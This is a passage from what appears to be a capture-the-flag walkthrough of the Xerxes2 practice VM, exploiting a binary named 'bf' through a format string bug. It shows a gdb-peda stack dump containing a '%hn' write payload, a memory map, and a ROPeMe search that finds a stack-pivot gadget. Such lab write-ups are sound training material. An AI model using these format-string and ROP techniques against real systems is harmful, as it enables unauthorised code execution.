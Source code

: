 ```
0048| 0xbfc3b45c ("%17$hn-%11c%18$hn")
0052| 0xbfc3b460 ("hn-%11c%18$hn")
0056| 0xbfc3b464 ("11c%18$hn")
0060| 0xbfc3b468 ("18$hn")
0064| 0xbfc3b46c --> 0x6e ('n')
0068| 0xbfc3b470 --> 0x0 
0072| 0xbfc3b474 --> 0x0 
0076| 0xbfc3b478 --> 0x0 
0080| 0xbfc3b47c --> 0x0 
0084| 0xbfc3b480 --> 0x0 
0088| 0xbfc3b484 --> 0x0 
0092| 0xbfc3b488 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
```

The format string I input into the buffer could be found at offset 32 from the stack. That was where I needed to pivot to. Using vmmap, I identified additional libraries linked to bf that I could use for hunting gadgets:  

```
gdb-peda$ vmmap 
Start      End        Perm  Name
0x08048000 0x08049000 r-xp  /opt/bf
0x08049000 0x0804a000 rw-p  /opt/bf
0x40000000 0x4001c000 r-xp  /lib/i386-linux-gnu/ld-2.13.so
0x4001c000 0x4001d000 r--p  /lib/i386-linux-gnu/ld-2.13.so
0x4001d000 0x4001e000 rw-p  /lib/i386-linux-gnu/ld-2.13.so
0x4001e000 0x4001f000 r-xp  [vdso]
0x4001f000 0x40023000 rw-p  mapped
0x40026000 0x40183000 r-xp  /lib/i386-linux-gnu/i686/cmov/libc-2.13.so
0x40183000 0x40184000 ---p  /lib/i386-linux-gnu/i686/cmov/libc-2.13.so
0x40184000 0x40186000 r--p  /lib/i386-linux-gnu/i686/cmov/libc-2.13.so
0x40186000 0x40187000 rw-p  /lib/i386-linux-gnu/i686/cmov/libc-2.13.so
0x40187000 0x4018b000 rw-p  mapped
0xbfc23000 0xbfc44000 rw-p  [stack]
```

/lib/i386-linux-gnu/ld-2.13.so and /lib/i386-linux-gnu/i686/cmov/libc-2.13.so were linked to bf, so I downloaded those along with bf over to my machine. To find the gadgets, I used [ropeme](http://www.vnsecurity.net/2010/08/ropeme-rop-exploit-made-easy/). 

The first thing I loaded was bf and I immediately found a gadget that would remove 44 bytes from the top of the stack: 

```
root@kali ~/xerxes2
# ropshell.py 
Simple ROP interactive shell: [generate, load, search] gadgets
ROPeMe> generate bf
Generating gadgets for bf with backward depth=3
It may take few minutes depends on the depth and file size...
Processing code block 1/1
Generated 63 gadgets
Dumping asm gadgets to file: bf.ggt ...
OK
ROPeMe> search add esp %
Searching for ROP gadget:  add esp % with constraints: []
0x804867eL: add esp 0x24 ; pop ebx ; pop ebp ;;
```

